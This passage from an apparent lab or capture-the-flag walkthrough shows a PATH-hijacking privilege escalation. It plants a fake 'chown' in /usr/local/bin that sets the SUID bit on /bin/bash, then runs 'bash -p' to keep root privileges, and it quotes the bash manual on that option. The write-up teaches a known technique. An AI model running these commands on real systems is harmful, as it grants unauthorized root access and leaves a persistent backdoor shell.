

5.4 PATH HIJACKING
1. On the victim's machine create a file called “chown” with a malice content to assign SUID to /bin/bash.
brad@crazymed:~$ echo "chmod u+s /bin/bash" > /usr/local/bin/chown
brad@crazymed:~$ chmod +x /usr/local/bin/chown
The SetUID bit enforces user ownership on an executable file. When it is set, the file will execute with the file owner's user ID, not the person running it.
$ chmod u+s
2. Run the following command on the victim's machine.
brad@crazymed:~$ /bin/bash -p
The -p option in bash is related to security. It is used to prevent the shell reading user-controlled files.
The bash manual says:
Invoked with unequal effective and real uid/gids
If Bash is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS, BASHOPTS, CDPATH, and GLOBIGNORE variables, if they appear in the environment, are ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
Output:
